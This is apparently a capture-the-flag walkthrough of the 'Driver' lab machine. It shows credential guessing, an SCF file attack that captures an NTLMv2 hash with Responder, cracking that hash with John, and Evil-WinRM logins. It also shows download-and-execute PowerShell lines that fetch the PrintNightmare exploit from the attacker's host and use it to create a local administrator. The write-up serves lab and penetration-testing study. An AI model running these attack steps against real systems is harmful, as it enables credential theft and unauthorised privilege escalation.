



The machine allows you to upload files to an SMB File Share. The files on the file share are opened by a user on the box. This allows you to obtain the user's NTLMv2 Hash using a SCF File attack. We use John the Ripper to crack the hash and Evil-Winrm to log on to the box. While logged in as the user on the box we use a powershell implementation of CVE-2021-1675 (PrintNightmare privilege escalation) to create a local administrator account on the box. In order to run the powershell script we need to bypass the restricted execution policy on the box.
Our initial nmap scan shows ports 80, 135 and 445 open.
$ nmap 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-24 12:40 EST
Nmap scan report for 10.10.11.106
Host is up (0.068s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_ Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 7h03m58s, deviation: 0s, median: 7h03m57s
| smb-security-mode:
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2022-02-25T00:45:07
|_ start_date: 2022-02-25T00:42:33
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.44 secondsScanning the box on all TCP ports finds that 5985 is open as well.
$ nmap 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 09:27 EDT
Nmap scan report for 10.10.11.106
Host is up (0.024s latency).
Not shown: 65531 filtered ports
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
445/tcp open microsoft-ds
5985/tcp open wsman
Nmap done: 1 IP address (1 host up) scanned in 106.06 secondsNavigating to http://10.10.11.106/ in our web browser we are meet with an authentication prompt.
Guessing admin:admin gives us access to the "MFP Firmware Update Center."
Navigating to Firmware Updates reveals that we have the ability to upload firmware updates for select printer models. We are instructed that our firmware will be tested manually.
Researching the printers available did not yield useful results at the moment. Re-reading the instructions gives a big clue. It looks like uploaded files are saved to the SMB file share. Googling SMB file share attacks we find this article SMB Share - SCF File Attacks.
Based on the article above we will:
$ cat fa.scf
[Shell]
Command=2
IconFile=\\10.10.14.15\place\t.ico
[Taskbar]
Command=ToggleDesktop
$ sudo responder tun0
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
NBT-NS, LLMNR & MDNS Responder 3.0.6.0
Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CTRL-C
-----SNIP-----
[+] Current Session Variables:
Responder Machine Name
Responder Domain Name
Responder DCE-RPC Port
[+] Listening for events...
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash : tony::DRIVER:ccd0f3b091e18e72:9B7161C61369CEE1DF51C8F6EC6D7440:01010000000000000091EC039929D801C3C37D28A9E2DF56000000000200080054004A003400370001001E00570049004E002D0041004B0055004A00540041003000490054005300450004003400570049004E002D0041004B0055004A0054004100300049005400530045002E0054004A00340037002E004C004F00430041004C000300140054004A00340037002E004C004F00430041004C000500140054004A00340037002E004C004F00430041004C00070008000091EC039929D801060004000200000008003000300000000000000000000000002000001697A9327A79C984DCCBB353A5B8FE0A46BA19DDA296A7D05DEFFC9215EEDF080A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003500000000000000000000000000The scf file attack gave us a username and hash.
We are able to use JTR to obtain the password for user Tony.
$ cat hash2.txt
tony::DRIVER:ccd0f3b091e18e72:9B7161C61369CEE1DF51C8F6EC6D7440:01010000000000000091EC039929D801C3C37D28A9E2DF56000000000200080054004A003400370001001E00570049004E002D0041004B0055004A00540041003000490054005300450004003400570049004E002D0041004B0055004A0054004100300049005400530045002E0054004A00340037002E004C004F00430041004C000300140054004A00340037002E004C004F00430041004C000500140054004A00340037002E004C004F00430041004C00070008000091EC039929D801060004000200000008003000300000000000000000000000002000001697A9327A79C984DCCBB353A5B8FE0A46BA19DDA296A7D05DEFFC9215EEDF080A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003500000000000000000000000000
$ john hash2.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony (tony)
1g 0:00:00:00 DONE (2022-02-24 20:35) 50.00g/s 1638Kp/s 1638Kc/s 1638KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
Since port 5985 is open on the machine, we attempt to log in using Evil-WinRM and the creds we obtained from the scf file attack.
$ evil-winrm tony 'liltony'10.10.11.106
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> whoami
driver\tony
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> Success!
This box is printer themed. The box was released shortly after PrintNightmare POCs became public. Let's try a PrintNightmare based privilege escalation. Googling for CVE 2021-1675 pocs, we find a powershell based implementation written by Caleb Stewart and John Hammond CVE-2021-1675 - PrintNightmare LPE (PowerShell).
Following the instructions from the README.md we are able to elevate our privileges.
$ ls
CVE-2021-1675.ps1
$ python3http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... [0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> $downL="http://10.10.14.15/CVE-2021-1675.ps1"
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> $locA="C:\\Users\\tony\\Downloads\\cve.ps1"
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> (New-Object Net.WebClient).DownloadFile($downL, $locA)
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> cd ..
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony> cd Downloads
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> dir
Directory: C:\Users\tony\Downloads
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 2/25/2022 2:02 PM 178561 cve.ps1
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Attempting to follow the README.md instructions for the cve fails at the first step because running scripts have been disabled on this machine.
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Import-Module .\cve.ps1
File C:\Users\tony\Downloads\cve.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at
http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\cve.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [Import-Module], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Running Get-ExecutionPolicy we see that our effective execution policy is restricted.
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Get-ExecutionPolicy -List | Format-Table -AutoSize
Scope ExecutionPolicy
----- ---------------
MachinePolicy Undefined
UserPolicy Undefined
Process Undefined
CurrentUser Undefined
LocalMachine Undefined
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Get-ExecutionPolicy
Restricted
Hacktricks has an article Basic PowerShell for Pentesters which contains a section Execution Policy which list ways to bypass the restricted policy. Since we already have a webserver hosting the powershell script let's try 7) Download and execute.
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> IEX(New-Object Net.webclient).downloadString('http://10.10.14.15/CVE-2021-1675.ps1')
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads> Invoke-Nightmare -NewUser "bill" -NewPassword "superS3cr3t!ornotimapwnotacop" -DriverName "PrintMe"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user bill as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Downloads>
We have added the user bill. Let's use Evil-WinRm to log in as bill and verify he is an Admin.
$ evil-winrm bill 'superS3cr3t!ornotimapwnotacop'10.10.11.106
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\bill\Documents> whoami
driver\bill
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\bill\Documents> ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
True Success!